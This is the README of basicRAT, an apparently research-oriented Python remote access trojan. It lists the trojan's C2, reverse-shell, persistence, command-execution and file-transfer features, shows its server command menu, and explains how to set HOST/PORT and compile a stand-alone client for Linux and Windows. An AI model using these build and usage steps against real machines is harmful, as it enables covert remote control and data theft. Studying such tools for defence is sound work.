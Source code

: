 # basicRAT Test

- Source (https://github.com/nathanlopez/basicRAT)

**Disclaimer: This RAT Test is for research purposes only, and should only be used on authorized systems. Accessing a computer system or network without authorization or explicit permission is illegal.**

## Features
* Cross-platform
* AES CBC encrypted C2 with D-H exchange
* Reverse shell
* File upload/download
* Standard utilities (wget, unzip)
* System survey

## Usage
```
$ python basicRAT_server.py --port 1337

basicRAT server listening on port 1337...

[127.0.0.1] basicRAT> help

download <files>    - Download file(s).
help                - Show this help menu.
persistence         - Apply persistence mechanism.
quit                - Gracefully kill client and server.
rekey               - Regenerate crypto key.
run <command>       - Execute a command on the target.
scan <ip>           - Scan top 25 ports on a single host.
survey              - Run a system survey.
unzip <file>        - Unzip a file.
upload <files>      - Upload files(s).
wget <url>          - Download a file from the web.

```

## Build a stand-alone executable
Keep in mind that before building you will likely want to modify both the `HOST` and `PORT` variables located at the top of `basicRAT_client.py` to fit your needs.

On Linux you will need Python 2.x, [PyInstaller](http://www.pyinstaller.org/), and pycrypto. Then run something like `pyinstaller2 --onefile basicRAT_client.py` and it should generate a `dist/` folder that contains a stand-alone ELF executable.

On Windows you will need Python 2.x, PyInstaller, pycrypto, pywin32, and pefile. Then run something like `C:\path\to\PyInstaller-3.2\PyInstaller-3.2\pyinstaller.py --onefile basicRAT_client.py` and it should generate a `dist/` folder that contains a stand-alone PE (portable executable).

## Authors
* Austin Jackson [@vesche](https://github.com/vesche)
* Skyler Curtis [@deadPix3l](https://github.com/deadPix3l)
